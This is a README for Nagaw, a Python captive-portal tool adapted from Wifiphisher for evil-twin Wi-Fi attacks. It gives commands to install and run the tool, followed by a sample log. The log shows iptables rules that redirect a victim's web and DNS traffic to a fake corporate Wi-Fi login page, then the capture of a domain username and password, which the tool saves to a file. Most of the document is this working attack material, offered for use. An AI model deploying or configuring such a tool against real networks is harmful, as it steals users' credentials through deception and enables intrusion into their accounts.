 # Nagaw
Nagaw is a simple yet effective captive portal tool coded in Python. 

The code was taken from Wifiphisher tool (all credits go to the original authors) and modified and adapted to be used separately.

## "New" ReadMe
This code was ~stolen~ forked from after reading https://hacktricks.boitatech.com.br/pentesting/pentesting-network/wifi-attacks/evil-twin-eap-tls#the-uncommon-case-attacking-eap-tls

This should do 80% of what the previous tool did... was a lot of errors. 
```bash
# Run:
python3 -m venv venv &&  . venv/bin/activate && python3 -m pip install -r requirements.txt
sudo python3 nagaw.py -i wlan1 -o wlan0 -t demo
```

## Old ReadMe

# Example of Use:
```
bransh@hsnarb:~/DEV/nagaw$ sudo python nagaw.py -i wlan1 -o wlan0 -t demo -d
[*] Starting at 2019-05-19 22:18 ...
[*] Starting dnsmasq ...
[*] Cleaning iptables rules from the system ...
[D] Executing the following commands: 
    iptables -F
    iptables -X
    iptables -t nat -F
    iptables -t nat -X
[*] Configuring NAT for providing Internet via wlan0 ...
[D] Executing the following commands: 
    iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
    iptables -A FORWARD -i wlan1 -o wlan0 -j ACCEPT
[D] Executing the following command: 
    sysctl -w net.ipv4.ip_forward=1
[*] Configuring iptables for redirecting HTTP(s) to this host ...
[D] Executing the following commands: 
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
    iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 10.0.0.1:443
    iptables -t nat -A PREROUTING -p tcp --dport 53 -j DNAT --to-destination 10.0.0.1:53
    iptables -t nat -A PREROUTING -p udp --dport 53 -j DNAT --to-destination 10.0.0.1:53
[D] Executing the following command: 
    sysctl -w net.ipv4.conf.all.route_localnet=1
[*] Loading phishing scenarios from /home/bransh/SHARED/DEV/nagaw/template-pages ...
[*] Selecting "Victim Company WiFi Login Page" template ...
[*] Starting HTTP/HTTPS server at ports 80/443 ...
[+] New victim(s):
    MAC: xx:xx:xx:xx:xx:xx / IP: 10.0.0.14
[+] GET request from 10.0.0.14 for http://captive.apple.com/hotspot-detect.html
[+] GET request from 10.0.0.14 for http://captive.apple.com/hotspot-detect.html
[+] GET request from 10.0.0.14 for http://captive.apple.com/fonts/glyphicons-halflings-regular.woff
[+] GET request from 10.0.0.14 for http://captive.apple.com/fonts/glyphicons-halflings-regular.ttf
[+] GET request from 10.0.0.14 for http://captive.apple.com/fonts/glyphicons-halflings-regular.svg
[+] GET request from 10.0.0.14 for http://captive.apple.com/hotspot-detect.html
[D] POST request from 10.0.0.14 for http://captive.apple.com/login
[D] POST request from 10.0.0.14 with body: {u'username': u'bransh.local\\bransh', u'password': u'fromiphone'}
[D] Got credentials (callback) ...
[D] Attempting to log credentials in file ...
[*] Credentials saved on /home/bransh/DEV/nagaw/_nagaw_credentials_20190519_2218.log ...
[+] New Credentials obtained from 10.0.0.14 :
    -> {u'username': u'bransh.local\\bransh', u'password': u'fromiphone'}
[*] Providing internet access to 10.0.0.14 ...
[D] Executing the following command: 
    iptables -t nat -I PREROUTING 1 -p tcp -s 10.0.0.14 -j ACCEPT
```

# Considerations
This mini-tool leverages dnsmasq under the hood to provide DHCP service to victims, therefore make sure to have it installed on your system before using it.
